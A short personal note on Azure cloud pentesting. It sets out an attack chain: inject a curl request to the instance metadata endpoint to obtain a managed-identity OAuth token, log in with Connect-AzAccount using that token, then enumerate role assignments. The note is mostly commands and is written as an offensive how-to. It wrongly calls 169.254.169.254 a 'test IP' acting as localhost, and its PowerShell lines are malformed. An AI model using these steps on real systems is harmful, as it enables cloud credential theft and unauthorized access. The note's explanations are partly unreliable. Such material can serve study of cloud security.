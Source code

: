 
Check for vulnerable input parameters in the asset, where you could inject payloads like:

```
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

==Remember that 169.254.169.254 is a test IP that works as a localhost in the cloud.==

This payload can retrieve metadata of the endpoint, and obtain an authentication token. If you do, then you will need to use the Powershell cli to connect to the endpoint:

`PS> $token = “AccessToken”
`PS> Connect-AzAccount -AccessToken $token -AccountId [Subscription ID]`

You can further expand your knowledge on the token using this site:
https://jwt.io/
It will break down the information about it.

Once you are logged in with the token, you can check the role assignment of a managed identity attached to the VM:

`Get-AzRoleAssignment -ObjectId [PrincipalID-ManagedIdentity]`




### Properties
---
📆 created   {{08-01-2025}} 21:17
🏷️ tags: #cloud #azure 

---

